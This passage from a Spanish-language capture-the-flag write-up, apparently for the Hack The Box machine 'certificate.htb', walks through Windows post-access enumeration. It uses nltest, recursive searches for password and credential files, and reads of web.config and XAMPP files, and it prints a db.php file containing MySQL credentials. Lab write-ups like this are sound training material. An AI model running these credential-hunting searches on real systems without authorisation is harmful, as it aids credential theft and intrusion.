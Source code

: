 ```powershell

# Verificar si es Domain Controller
nltest /dclist:certificate.htb
```

### 6.2 Búsqueda de Archivos Interesantes

```powershell
# Buscar archivos con contraseñas
dir /s *pass* == *.txt
dir /s *password* == *.txt
dir /s *cred* == *.txt

# Buscar archivos de configuración
dir /s web.config
dir /s *.config
dir /s *.xml

# Buscar en el directorio web
cd C:\inetpub\wwwroot
dir /s
```

### 6.3 Enumeración de Servicios Web

```powershell
# Verificar IIS
iisreset /status

# Buscar archivos de XAMPP
dir C:\xampp

# Si existe XAMPP, buscar configuraciones
cd C:\xampp\htdocs
dir
```

### 6.4 Búsqueda en el Directorio de XAMPP

```powershell
# Navegar a XAMPP
cd C:\xampp\htdocs\certificate.htb
dir

# Buscar archivos PHP con configuraciones
type db.php
```

**Contenido de db.php (credenciales de MySQL):**
```php
<?php
$host = 'localhost';
$user = 'certificate_webapp_user';
$pass = 'cert!f!c@teDBPWD';
$db = 'certificate_webapp';
?>
```
